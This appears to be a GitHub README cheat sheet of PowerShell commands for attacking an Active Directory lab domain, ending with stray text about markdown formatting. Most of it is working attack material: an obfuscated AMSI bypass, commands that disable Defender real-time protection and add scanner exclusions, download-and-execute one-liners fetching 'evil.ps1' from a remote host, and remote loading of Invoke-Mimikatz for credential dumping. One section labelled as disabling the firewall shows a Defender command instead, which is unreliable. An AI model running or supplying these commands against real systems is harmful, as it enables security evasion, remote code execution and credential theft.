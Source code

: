# PowerShell Scripts and Enumeration Techniques

This repository contains various PowerShell commands and scripts used for domain enumeration, local admin access, AMSI bypass, and other security-related tasks. Below are examples and explanations of various techniques that may be useful for penetration testing, system administration, and security auditing.

## 1. Domain Information Retrieval

### Command to Retrieve Domain Information

```bash
C:\Users\Naveen>cmd /c "hostname & whoami & ipconfig & whoami /priv"
```

### Get Domain Information Using PowerShell

```powershell
PS C:\Users\student157> [System.Net.Dns]::GetHostByName(($env:computerName))
PS C:\Users\student157> $ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
PS C:\Users\student157> $ADClass::GetCurrentDomain()
```

## 2. PowerShell Script Execution Examples

### Loading PowerShell Scripts

- Load a PowerShell script using dot sourcing:
  ```powershell
  PS . C:\AD\Tools\Powershell.ps1
  ```

- Import a module:
  ```powershell
  Import-Module <modulename>.psd
  ```

- List all commands in a module:
  ```powershell
  Get-Command -Module <modulename>
  ```

### Get Help for PowerShell Commands

- Get help for `Get-NetGroup`:
  ```powershell
  get-help Get-NetGroup
  get-help Get-NetGroup -examples
  get-help Get-NetGroup -full
  get-help Get-NetGroup -detailed
  show-command Get-NetGroup
  Update-Help
  ```

## 3. Exclusion Adding for Specific Paths

### Add Exclusion Path for Anti-Virus

```powershell
powershell -inputformat none -outputformat none -NonInteractive -Command "Add-MpPreference -ExclusionPath 'C:\AD'"
```

### Script Block Example for Disabling AMSI

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## 4. Disabling Anti-Virus Real-Time Protection

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## 5. PowerShell Script Execution Bypass

- Bypass Execution Policy:
  ```powershell
  powershell -ep bypass
  powershell -ExecutionPolicy bypass
  ```

- Run PowerShell command with encoded string:
  ```powershell
  powershell -encodedcommand <encoded_command>
  ```

## 6. Finding Local Admin Access

### Enumerate Local Admin Access

```powershell
PS C:\AD\Tools> Find-LocalAdminAccess -Verbose
PS C:\AD\Tools> Invoke-CheckLocalAdminAccess -ComputerName dcorp-stud157.dollarcorp.moneycorp.local
PS C:\AD\Tools> . .\Find-WMILocalAdminAccess.ps1
PS C:\AD\Tools> Find-WMILocalAdminAccess -ComputerFile .\computers.txt
```

### Checking for Domain Admin Sessions

```powershell
PS C:\AD\Tools> Invoke-UserHunter -Verbose   
PS C:\AD\Tools> Invoke-UserHunter -Verbose -GroupName "rdpusers"
PS C:\AD\Tools> Invoke-UserHunter -CheckAccess
PS C:\AD\Tools> Invoke-UserHunter -stealth
```

### Enumerate Sessions on Any Machine

```powershell
PS C:\AD\Tools> Get-NetSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## 7. Remote Script Execution

### Loading PowerShell Scripts Remotely

- Using `iex` (Invoke-Expression) for remote script execution:
  ```powershell
  iex (New-Object Net.WebClient).DownloadString('http://192.168.230.1/evil.ps1')
  ```

### Download and Execute Remote Payload

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

## 8. Language Modes in PowerShell

PowerShell has four language modes:

- No Language
- Constant Language
- Restricted Language
- Full Language Mode

## 9. Finding Local Admin Access on Specific Machines

```powershell
PS C:\AD\Tools> Find-LocalAdminAccess
PS C:\AD\Tools> Invoke-CheckLocalAdminAccess -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## 10. Disable Firewall Incoming Connections

- Disable firewall incoming connections to allow reverse shell:
  ```powershell
  Set-MpPreference -DisableRealtimeMonitoring $true
  ```

## 11. Using `Invoke-Mimikatz` for Credential Dumping

### Load and Execute Mimikatz

```powershell
iex (iwr http://172.16.100.157/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

- Dump hashes using Mimikatz:
  ```powershell
  Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
  ```

## 12. Handling Application Control (AppLocker)

- Enum AppLocker policies:
  ```powershell
  Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
  ```

## Conclusion

This repository provides essential commands and scripts for penetration testing and domain administration. Always ensure you have proper authorization before using these techniques in any environment.
```

### Key Elements:
1. **Headers:** Use headers (`#`, `##`, `###`) to structure the content.
2. **Code Blocks:** Wrap command examples in triple backticks (```) to make them stand out.
3. **Bullet Points:** Use bullets (`-`) to list steps or options.
4. **Inline Code:** Use single backticks (`` ` ``) for inline code snippets.

This format will make the document easy to read, navigate, and share on GitHub.
